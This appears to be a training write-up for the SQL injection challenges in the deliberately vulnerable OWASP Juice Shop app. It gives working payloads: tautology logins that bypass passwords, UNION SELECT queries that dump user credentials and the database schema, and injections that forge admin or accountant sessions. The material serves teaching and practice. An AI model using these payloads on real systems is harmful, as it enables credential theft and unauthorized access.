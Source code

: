 # SQL Injection

This web application is vulnerable to SQL injection attacks specifically reshaping the SQL queries using the following techniques:
* Tautology based injection
* UNION select injection

## SQL injection challenges in OWASP juice-shop web app

|Name   |Description   |Difficulty   |
|---|---|---|
|Login Admin   |Log in with the administrator's user account   |⭐⭐   |
|Login Bender   |Log in with Bender's user account   |⭐⭐⭐   |
|Login Jim   |Log in with Jim's user account   |⭐⭐⭐   |
|Login Chris   |Log in with Chris' erased user account   |⭐⭐⭐   |
|Christmas Special   |Order the Christmas special offer of 2014   |⭐⭐⭐   |
|Database Schema   |Exfiltrate the entire DB schema definition via SQL Injection   |⭐⭐⭐   |
|User Credentials   |Retrieve a list of all user credentials   |⭐⭐⭐⭐   |
|Ephemeral Accountant   |Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user   |⭐⭐⭐⭐   |
|   |   |   |



Before a hacker can  start exploiting an insecure application, s/he must figure out how the application handles **bad** input first.

The best and original way of testing is with the single quote technique. Using the tick technique, two things should happen:

1. The input is sanitized or cleaned and returns a nice error message.

1. There is no sanitization we get something like below or something blatant or nothing.
******
## Tick Technique

First enter just an apostrophe in the Email input field. What errors do we get?

Then try putting a tick at end of an existing user email like below.

![end-tick](object_Object.png)

The error response is crucial in determining the attack.

What will the attacker see on form page by inputting a single quote? It depends on how the application handles errors in the database. In this case, something nondescript. But what is remarkable is that there are no errors like, "**invalid email address and password**". But... we are seeing SQLite errors. Now the hacker also knows that the input is not being sanitized. And if there is no sanization, there's potential exploitation.

![inspector errors](descriptive_errors.png)

* On the juice-shop app login page, type
   ```
   ' or true;
   ```
    semicolon is used to end a sql statement
   ```
   ' or true -- lkjlsdjlfkjsfsdlsjdlfjs
   ```
   ```
    dkfdk' or true -- blahblah
   ```

* go to code [login code](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js)

    We expose the code above and the backend sqlite on the web interface.

~~1. show juiceshop.sqlite~~

* By the time the web app sends the query to sqlite, it looks like this.
    ```
    SELECT * FROM Users WHERE email='dkfdk' or true -- blahblah AND password='somehashedpassword'
    ```

    Due to the inclusion of a comment delimiter in the email field the password portion of the query will be ignored.

* in fact, you can input this with any emails, like:
    ```
    support@juice-sh.op'; -- active
    chris.pike@juice-sh.op'; -- inactive
    ```
******

## UNION based
### **List all products (whether active or not)**
    ')); or ')) --
This includes all products and **')); or ')) --** made other qualifications irrelevant.

### **List all users**
```
anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--

http://localhost:3000/rest/products/search?q=anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```
the nonsensical text after __q=__ is a technique to make the api search for that nonexistent product. but the sql code proceeds with the payload.

### **Voila the schema**
```
http://localhost:3000/rest/products/search?q=sldjfwo')) UNION SELECT sql,2,3,4,5,6,7,8,9  FROM sqlite_master--

```

### **ephemeral accounts**

when you register a new account, from the inspector we know that the fields (or keys) used are:

![columns used](upon_registration.png)


start with
```
' union select 1;
```
It is universal to return from this temp table the 1 record with a single field that has value 1.
From the image above, we see that we need at least 10 columns. Try:

```
' union select 1,1,1,1,1,1,1,1,1,1;
```

It needs exactly 12 columns. We see now that we do not get any SQL errors, but we get a new prompt page.

![2fa auth](2fa_required.png)

We need to experiment a little bit to find out where this  totpSecret should be. But looking at the schema, you'll note that totpSecret is 5th from the last. Try:


```
' union select 1,1,1,1,1,1,1,'' as 'totpSecret',1,1,1,1;
```

Obviously, we can log in with just the totpSecret filled in for this application. Let's try adding an email.

```
' union select * from (select 1,1,'nem@akdm.nt' as 'email',1,1,1,1,'' as 'totpSecret',1,1,1,1);
```
or even add a role:
```
' union select 1,1,1,1,'admin' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
Get points by inserting email of fake accountant:
```
' union select 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
How does it look when sent to database?
```
SELECT * FROM users WHERE email = '' UNION SELECT * FROM (SELECT 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1)
```

## sqlite_master

The SQLite database holds the database schema in the table sqlite_master.
Table definition

The table definition is as follows:

    Type : Type is Index or Table.
    name : Index or table name
    tbl_name : Name of the table
    rootpage : rootpage, internal to SQLite
    sql : The SQL statement, which would create this table.

## API endpoint

**Login SQL code**

![login sql](sql_login.png)

**Search SQL code**

![search sql](sql_search.png)

* [SQL code used in search](https://github.com/bkimminich/juice-shop/blob/master/routes/search.js)


## How to avoid sql injection

1. [protection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)